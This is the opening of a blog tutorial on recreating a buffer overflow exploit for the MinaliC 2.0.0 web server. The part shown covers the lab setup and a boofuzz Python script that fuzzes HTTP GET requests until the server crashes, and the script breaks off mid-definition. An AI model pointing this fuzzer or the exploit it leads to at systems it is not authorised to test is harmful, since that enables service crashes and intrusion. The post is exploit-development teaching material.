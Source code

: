 ```yaml
---
title: MinaliC 2.0.0 buffer overflow exploit
author: Stipe Marinovic
date: 2020-07-15 23:00:00 +0800
categories: [Blogging, Tutorial, Exploit]
tags: [fuzzing, shellcoding, exploit, bufferoverflow, bof]
toc: true
---
```


## Introduction ##

In this blog post we will go thru recreating buffer overflow exploit for MinaliC webserver. Application can be downloaded on following URL: (https://sourceforge.net/projects/minalic/)[https://sourceforge.net/projects/minalic/].  
Resources needed:
* Windows XP with debugger: Immunity Debugger or OllyDbg
* Kali Linux or any other OS with python and boofuzz installed

## Fuzzing ##

Standard python script with boofuzz module and post_test_case_callback function call can be used for fuzzing. 

* Fuzzer

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '172.16.24.213'
port = 80

def receive_response(target, fuzz_data_logger, session, sock):
   data=sock.recv(20000)
   if not "HTTP/1.1" in data:
      print "\n######################################################\n"
      print "[+] No data received from MinaliC server"
      print "[+] Payload length: " + str (len(session.last_send))
      print "[+] Payload saved in minalic_server_crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("minalic_server_crash_report.txt", "w")
      f.write(session.last_send)
      f.close()
      sys.exit(-1)

def main():

   session = Session(post_test_case_callbacks=[receive_response], sleep_time=0.2, target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("MiniShare GET")
   s_string("GET", fuzzable = False)
   s_delim(" ", fuzzable = False)
   s_string("/", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
   s_delim(" ", fuzzable = False)
   s_string("HTTP/1.1", fuzzable = False)
   s_string("\r\n", fuzzable = False)

   s_string("Host:", fuzzable =False)
```
